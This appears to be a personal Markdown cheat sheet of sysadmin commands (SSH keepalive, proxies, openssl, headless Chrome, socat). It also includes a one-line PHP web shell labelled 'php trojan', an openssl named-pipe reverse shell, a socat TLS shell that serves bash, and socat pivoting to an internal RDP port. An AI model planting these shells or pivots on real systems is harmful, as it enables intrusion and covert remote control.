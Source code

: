 # fswatch
`go install github.com/codeskyblue/fswatch`


# httpd
* [http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions](http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions)

```
Options Indexes FollowSymLinks
IndexOptions FoldersFirst HTMLTable NameWidth=* VersionSort
```


# php trojan
```
($_=@$_GET[2]).@$_($_POST[1])
```


# ssh connection alive
## server
```
TCPKeepAlive yes #表示TCP保持连接不断开
ClientAliveInterval 300 #指定服务端向客户端请求消息的时间间隔，单位是秒，默认是0，不发送。
ClientAliveCountMax 3 #指服务端发出请求后客户端无响应则自动断开的最大次数。使用默认给的3即可。
```
### 注意：TCPKeepAlive必须打开，否则直接影响后面的设置。ClientAliveInterval设置的值要小于各层防火墙的最小值，不然，也就没用了。最后要重启sshd服务才生效
## client
```
Host * #表示需要启用该规则的服务端（域名或ip）
	ServerAliveInterval 60 #表示没60秒去给服务端发起一次请求消息（这个设置好就行了）
	ServerAliveCountMax 3 #表示最大连续尝试连接次数（这个基本不用设置）
```
## one time
`ssh -o ServerAliveInterval=30 user@host`


# secure tar
```
tar czf - package | openssl des3 -salt -k youPassword -out tar.tar.gz
# dd if=tar.tar.gz | openssl tar -d -k youPassword |tar zxf -
openssl des3 -d -salt -k youPassword -in tar.tar.gz | tar xzf -
```


# bash proxy
```
export https_proxy=10.0.0.52:8080
export https_proxy=user:pass@192.158.8.8:8080
export https_proxy=socks://10.0.0.52:1080
export https_proxy=socks4://10.0.0.52:1080
export https_proxy=socks5://10.0.0.52:1080
export ftp_proxy=socks5://10.0.0.52:1080
export no_proxy="*.aiezu.com,10.*.*.*,192.168.*.*,*.local,localhost,127.0.0.1"
```


# dig
`dig txt b.aliyuntest.com @8.8.8.8`

# shell beep
`echo -ne '\007'` or `echo -e "\a"` or `echo -n Ctrl+V Ctrl+G`

# gorpc
`protoc -I server/proto/ server/proto/geo.proto --go_out=plugins=grpc:server/proto`

# headless chrome
```
chrome --headless --disable-gpu --print-to-pdf https://www.baidu.com
chrome --headless --disable-gpu --dump-dom https://www.baidu.com
chrome --headless --disable-gpu --screenshot --window-size=1280,1696 https://www.baidu.com
```

# quick ssl
`go run $GOROOT/src/crypto/tls/generate_cert.go --host m.treevc.net`

# nc + pipe
```
nc -4kl 2222 <pipe | nc 127.0.0.1 3000 >pipe
```

# openssl s_server and s_client
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 2333
sh -i < pipe 2>&1 | openssl s_client -quiet -connect 127.0.0.1:2333 > pipe
```

# socat advanced
```
# https://payloads.online/tools/socat/

FILENAME=6.6.6.6
openssl genrsa -out $FILENAME.key 1024
openssl req -new -key $FILENAME.key -x509 -days 3653 -out $FILENAME.crt
cat $FILENAME.key $FILENAME.crt >$FILENAME.pem

socat openssl-listen:4433,reuseaddr,cert=$FILENAME.pem,cafile=$FILENAME.crt system:bash,pty,stderr
socat readline openssl:localhost:4433,cert=$FILENAME.pem,cafile=$FILENAME.crt
```
---
```
socat open:read.txt\!\!open:write.txt,create,append tcp-listen:80,reuseaddr,fork
```
---
```
# server
socat -d -d TCP-LISTEN:11443,reuseaddr TUN:192.168.255.1/24,up
# client
socat TCP:1.2.3.4:11443 TUN:192.168.255.2/24,up
```
---

| 外部 | socat tcp-listen:1234 tcp-listen:3389 |
| --- | :--- |
| 内部 | socat tcp:outerhost:1234 tcp:192.168.12.34:3389 |
